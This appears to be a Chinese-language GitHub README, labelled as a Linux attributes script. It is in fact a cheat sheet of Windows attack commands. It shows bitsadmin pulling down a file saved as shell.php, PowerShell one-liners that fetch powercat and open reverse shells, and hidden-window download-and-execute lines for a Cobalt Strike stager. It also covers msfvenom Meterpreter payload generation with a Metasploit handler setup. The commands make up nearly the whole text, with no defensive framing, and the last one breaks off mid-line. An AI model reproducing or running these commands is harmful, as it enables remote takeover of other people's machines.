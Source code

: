 # CheckLinux
linux的基本属性脚本
———————————————————————————————————————————————————————————————
# bitsadmin

bitsadmin  可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。

bitsadmin的一些特性：
bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像curl  wget 这类工具那样能用来下载HTML页面。
bitsadmin /transfer test http://files.cnblogs.com/files/gayhub/bcn.js  c:\users\xie\desktop\shell.php
#"任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。

# cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
# cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
# cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
# MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
# 目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'

